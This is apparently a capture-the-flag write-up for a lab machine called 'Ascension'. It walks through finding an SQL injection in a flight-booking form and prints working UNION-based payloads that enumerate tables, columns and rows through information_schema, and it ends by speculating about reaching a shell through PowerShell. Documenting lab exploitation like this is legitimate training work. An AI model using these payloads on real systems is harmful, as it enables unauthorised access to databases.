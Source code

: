 # ✈️ Ascension

<figure><img src="../../../.gitbook/assets/image (967).png" alt=""><figcaption></figcaption></figure>

We first discover a web page on port 80:

<figure><img src="../../../.gitbook/assets/image (968).png" alt=""><figcaption></figcaption></figure>

We discover some possible users:

<figure><img src="../../../.gitbook/assets/image (969).png" alt=""><figcaption></figcaption></figure>

```
-Nikolai Belinski
-Tank Dempsey
-Edward Richtofen
-Takeo Masaki
-Fanny Spencer
```

On the "book flight" page we quickly discover the following input that seems vulnerable to SQLi:

<figure><img src="../../../.gitbook/assets/image (970).png" alt=""><figcaption></figcaption></figure>

We are able to trigger the following error with a simple **'OR 1=1-- -**

<figure><img src="../../../.gitbook/assets/image (971).png" alt=""><figcaption></figcaption></figure>

So maybe we can retrieve some information this way. We follow the path of the SQLI and try to use UNION&#x20;

```
' UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
```

<figure><img src="../../../.gitbook/assets/image (972).png" alt=""><figcaption></figcaption></figure>

With the following payload, we are able to retrieve the table names:

```
' UNION SELECT NULL,table_name,NULL,NULL,NULL FROM information_schema.tables--
```

<figure><img src="../../../.gitbook/assets/image (973).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT NULL,column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='proxies'--
```

So we found the column names for proxies:

<figure><img src="../../../.gitbook/assets/image (974).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT proxy_id,proxy_name,subsystem_name,NULL,NULL FROM proxies--
```

<figure><img src="../../../.gitbook/assets/image (975).png" alt=""><figcaption></figcaption></figure>

So could this mean that a user called svc\_dev can run a cmd and PowerShell? From this information, we could imagine that we need to obtain a shell by executing a PowerShell script via an SQL request?
